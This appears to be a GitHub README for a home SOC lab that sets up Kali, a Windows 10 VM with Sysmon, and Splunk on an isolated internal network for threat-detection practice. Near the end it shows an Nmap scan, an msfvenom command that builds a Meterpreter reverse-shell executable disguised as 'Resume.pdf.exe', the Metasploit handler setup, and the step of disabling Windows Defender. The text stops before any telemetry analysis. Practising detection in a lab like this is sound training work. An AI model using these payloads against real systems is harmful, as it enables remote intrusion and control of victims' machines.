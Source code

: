 # SOC-Home-Lab-Setup
This project is based on setting up a functional and isolated SOC home lab environment for cybersecurity learning and threat detection practice. This lab simulates attacker and defender roles using tools like Kali Linux (attacker), Windows + Sysmon (endpoint monitoring), and Splunk (log analysis and SIEM). Here we are analysing malware by deploying malware through Kali and attacking our target Windows, and then analysing the telemetry generated on Splunk.

## Requirements:
- Oracle VirtualBox – A Virtualization platform to host multiple virtual machines.

- Kali Linux – Attacker machine for penetration testing and threat simulation.

- Windows 10 VM – Target machine to simulate user activity and attacks.

- Sysmon (System Monitor) – Windows system monitoring tool to log key events.

- Splunk Free – Log analysis and SIEM tool for ingesting and analyzing Sysmon logs.

## Steps:
### Step 1: Install VirtualBox
- Download from https://www.virtualbox.org

- Install on your host OS (Windows/Linux/macOS)

Here we are using Windows OS as our host machine.

### Step 2: Download the ISO images and tools.

#### Windows 10 VM:

- Install Windows 10 ISO (https://www.microsoft.com/en-ca/software-download/windows10)
- Click on Create Windows 10 installation media and download the ISO image.
- Enable the network adapter in NAT/Host-only mode for isolation

#### Kali Linux VM:

- Download ISO from https://www.kali.org
- To unzip the Kali Linux file, download 7-Zip (https://7-zip.org).
- Basic setup with networking enabled

#### 
  
#### Install Splunk Enterprise(Free Edition)

- Install on the Windows VM.

### Step 3: Creating Virtual Machines
#### For Windows
- Open Oracle VM and click on *New*, and select the folder you want to store the file.
- Name the machine as demo and select the ISO image downloaded.
- For Hardware, set the base memory up to 4 GB and 1 CPU, click *Next*.
- For Virtual Hard disk set to 50 GB, click *Finish*
- To power on the Windows machine, click *Start* and install Windows 10.
#### For Kali Linux
- After extracting the files to the desired folder, click on the  Kali Linux Vbox extension file.
- The machine will be automatically imported into our virtual box.
- To log in to the Kali machine, enter the default credentials *"username=kali,password=kali"*

### Step 4: Install Sysmon on Windows 10 VM
- Once the test machine is running, open a web browser and go to https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
- Download Sysmon from Microsoft Sysinternals and extract it to a folder.
- Download the configuration file from https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml
- Open the PowerShell, run as an administrator.
- To be in the same folder, copy the folder path and paste it into PowerShell.
- Install using the below command

        .\Sysmon64.exe -i .\sysmonconfig.xml
  
### Step 5: Install Splunk Enterprise on Windows 10 VM
- Download Splunk Enterprise Free Edition from https://splunk.com
- Click on the downloaded file and select the local system, and click Next.
- Create your username and password and click Install.
- Now Splunk will be installed on your local host on port 8000.

 #### To add data to Splunk
 - Log in with your username and password.
 - Select *Add Data-> Monitoring(to monitor event logs)-> Local Event Logs*.
 - Select *Application, Security, and System* for Event logs, click *Next*.
 - Input Setting->*default*, and click Submit.

### Step 6: Network Configuration
Here we are analyzing malware in our virtual machine, so to reduce the risk of infecting our host and virtual machine, configuring our network to isolate the virtual machine from the host is crucial. 
The network setting we are using here is the *Internal Network*, where the VMs are in their own network, where an IP address for each VM is assigned statically. These VMs will not have access to the internet or your LAN.

- Open VirtualBox -> select Windows 10 -> Settings -> Network -> Internal Network -> Name your network *mytest* ->ok.
- Same goes for Kali Linux.
Now the two machines are in the same network. But we have to statically assign an IP address to both machines.

#### Static IP for Windows:
- Power up the Windows
- Open Network and Internet Settings -> Change adapter settings -> Ethernet
- Right click on Ethernet -> Properties -> TCP/IPv4
- Select Use the following IP addresses
- IP Address: 192.168.20.10 , Subnet Mask: 255.255.255.0
- Default DNS and Gateway, click OK.

To check the settings, open the command prompt-> ipconfig, and you should see your new IP address.

#### Static IP for Kali Linux:
- Power up the Kali
- Right-click on Ethernet -> Edit Connections -> Wired connection -> Settings
- Select IPv4 Settings -> Method select Manual
- Addresses -> Add -> 192.168.20.11, Netmask ->24 -> Save

Open a terminal, run ifconfig, and check the IP address.

## Network Scanning with Nmap, Malware Analysis, and analysis of generated telemetry on Windows machine
Here we are using Nmap in Kali to scan the open ports available on Windows, and creating and analysing our own malware to observe the telemetry it generates on Windows machine.
Before deploying the malware, disable Windows Defender to establish reverse TCP connection.

#### On Kali Linux Demo
- Open terminal, enter *nmap -h*, which shows available options for nmap
- To scan Windows, enter *nmap 192.168.20.10 -Pn* to identify open ports
- Here, RDP port 3389 is open on Windows
- Now we can create malware on Kali to perform an attack on the target Windows system

##### Creation of basic malware 
- Use msfvenom to create a malware and a meterpreter reverse shell as a payload
- On Kali -> terminal -> enter msfvenom
- terminal -> msfvenom -l payloads, which gives a list of payloads
- Here we are using *windows/x64/meterpreter_reverese_tcp*
- In the terminal, enter
  
           msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.20.11 lport-4444 -f exe -o Resume.pdf.exe
 Here we are specifying Meterpreter to connect back to the host through reverse TCP by mentioning the host IP and Port, and specifying the file format, i.e., exe and file output Resume.pdf.exe

 - Now the Resume.pdf.exe file is created.

To listen to the port we have configured, in our malware, we need a handler, so open *Metasploit*.
- terminal -> msfconsole
- msf -> use exploit/multi/handler
- Change the payload from a generic to a configured payload.
- enter *set payload windows/x64/meterpreter/reverse_tcp*
- Type options to see the changed payload

Now, change the lhost to Kali
- Enter *set lhost 192.168.20.11*
- 
Now we can start the handler
- Enter *exploit*
and listen in, and wait for the test machine to download and execute our malware. 












